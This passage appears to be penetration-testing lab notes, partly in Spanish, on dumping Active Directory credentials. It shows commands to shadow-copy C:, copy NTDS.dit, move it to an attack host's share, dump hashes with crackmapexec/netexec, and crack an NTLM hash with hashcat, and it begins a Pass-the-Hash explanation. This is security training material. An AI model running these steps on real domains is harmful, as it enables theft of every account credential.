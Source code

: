 #### Creating Shadow Copy of C:

```c
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

#### Copying NTDS.dit from the VSS

```c
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

#### Transferring NTDS.dit to Attack Host

```c
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.		
```

#### A Faster Method: Using cme to Capture NTDS.dit

```c
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

```c
❯ netexec smb 10.129.202.85 -u jmarston -p 'P@ssword!' --ntds
```
## Cracking Hashes & Gaining Credentials

```c
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

## Pass-the-Hash Considerations

Todavía podemos usar hashes para intentar autenticarnos con un sistema mediante un tipo de ataque llamado `Pass-the-Hash`( `PtH`). Un ataque PtH aprovecha el [protocolo de autenticación NTLM](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) para autenticar a un usuario mediante un hash de contraseña. En lugar de `username`: `clear-text password`como formato para iniciar sesión, podemos usar `username`: `password hash`. A continuación, se muestra un ejemplo de cómo funcionaría esto:

